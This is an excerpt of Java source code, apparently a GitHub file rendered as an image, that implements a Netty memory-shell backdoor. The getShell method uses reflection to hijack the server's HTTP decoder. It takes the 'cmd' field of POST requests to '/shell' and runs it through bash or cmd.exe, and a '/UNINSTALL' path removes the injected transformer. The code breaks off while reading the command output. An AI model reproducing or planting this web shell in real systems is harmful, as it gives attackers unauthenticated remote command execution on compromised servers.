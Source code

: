 ```java
    @Override
    public String getMethodDesc() {
        return "(Lio/netty/channel/ChannelHandlerContext;Lio/netty/handler/codec/http/HttpObject;)V";
    }


    public  static void getShell(Object handler,io.netty.channel.ChannelHandlerContext ctx,
                                 io.netty.handler.codec.http.HttpObject msg) {
        //如果发生java.lang.NoClassDefFoundError异常，是无法捕获的，且会影响业务。
        try {
            String uriSymbol = "/shell";
            String cmdKey = "cmd";
            if (msg instanceof io.netty.handler.codec.http.HttpContent) {
                Field currentDecoderField = handler.getClass().getDeclaredField("currentDecoder");
                currentDecoderField.setAccessible(true);
                io.netty.handler.codec.http.multipart.HttpPostRequestDecoder currentDecoder =
                        (io.netty.handler.codec.http.multipart.HttpPostRequestDecoder) currentDecoderField.get(handler);
                Field currentRequestField = handler.getClass().getDeclaredField("currentRequest");
                currentRequestField.setAccessible(true);
                DefaultHttpRequest request = (DefaultHttpRequest) currentRequestField.get(handler);
                HttpContent chunk = (HttpContent) msg;
                //currentDecoder not null meaning method is POST and body has data.
                if (currentDecoder != null && request!=null) {
                    if (request.getUri().startsWith("/UNINSTALL")) {
                        if (Agent.transformer != null) {
                            Agent.transformer.release();
                        }
                    }
                    if (request.getUri().startsWith(uriSymbol)) {
                        currentDecoder.offer(chunk);
                        Map<String, String> form = new HashMap<String, String>();
                        try{
                            while (currentDecoder.hasNext()) {
                                InterfaceHttpData data = currentDecoder.next();
                                if (data instanceof DiskAttribute) {
                                    String key = data.getName();
                                    String value = ((DiskAttribute) data).getValue();
                                    form.put(key, value);
                                }
                                data.release();
                            }
                        } catch (HttpPostRequestDecoder.EndOfDataDecoderException ignored) {}

                        String cmd = "null cmd";
                        if (form.containsKey(cmdKey)) {
                            cmd = form.get(cmdKey);
                        }
                        if (!form.containsKey(cmdKey)) {
                            return;
                        }
                        String[] cmds = null;
                        if (!IS_WIN) {
                            cmds = new String[]{"/bin/bash", "-c", cmd};
                        } else {
                            cmds = new String[]{"cmd","/c",cmd};
                        }
                        java.io.InputStream in =
                                Runtime.getRuntime().exec(cmds).getInputStream();
                        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
                        int a = -1;
                        byte[] b = new byte[1];
```